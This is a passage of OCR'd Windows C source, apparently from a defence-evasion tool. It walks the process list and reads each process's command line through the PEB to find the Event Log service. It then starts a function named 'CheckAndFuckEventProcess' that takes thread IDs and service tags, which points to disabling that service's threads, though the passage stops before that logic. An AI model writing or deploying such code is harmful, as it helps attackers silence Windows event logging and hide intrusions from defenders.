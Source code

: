 ```text
    if (!hProcess)
    {
        return false;
    }
    DWORD status = NtQueryInformationProcess(hProcess, (PROCESSINFOCLASS)0, &pbi, sizeof(PVOID) * 6, NULL);

    PPEB ppeb = (PPEB)((PVOID*)&pbi)[1];
    PEB pebdata = { 0 };

    ReadProcessMemory(hProcess, ppeb, &pebdata, sizeof(PEB), NULL);

    PRTL_USER_PROCESS_PARAMETERS prtlp = (&pebdata)->ProcessParameters;
    RTL_USER_PROCESS_PARAMETERS rtlp = { 0 };

    ReadProcessMemory(hProcess, prtlp, &rtlp, sizeof(RTL_USER_PROCESS_PARAMETERS), NULL);

    PWSTR lpBuffer = (PWSTR)(&rtlp)->CommandLine.Buffer;
    USHORT len = (USHORT)(&rtlp)->CommandLine.Length;

    LPWSTR lpStrings = (LPWSTR)malloc(len);

    ZeroMemory(lpStrings, len);

    ReadProcessMemory(hProcess, lpBuffer, lpStrings, len, NULL);


    if (wcsstr(lpStrings, L"EventLog"))
    {
        result = true;
    }

    free(lpStrings);

    return result;
}

DWORD GetEventLogProcessId() {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hSnapshot)
    {
        return 0;
    }
    DWORD logpid = 0;
    PROCESSENTRY32W pe32 = { 0 };
    pe32.dwSize = sizeof(PROCESSENTRY32W);
    BOOL bRet = Process32FirstW(hSnapshot, &pe32);
    while (bRet)
    {
        if (CheckEventProcess(pe32.th32ProcessID))
        {
            logpid = pe32.th32ProcessID;
            CloseHandle(hSnapshot);
            return logpid;
        }
        bRet = Process32NextW(hSnapshot, &pe32);
    }
    CloseHandle(hSnapshot);
    return 0;
}


BOOL CheckAndFuckEventProcess(DWORD processId, DWORD threadId, PULONG pServiceTag)
```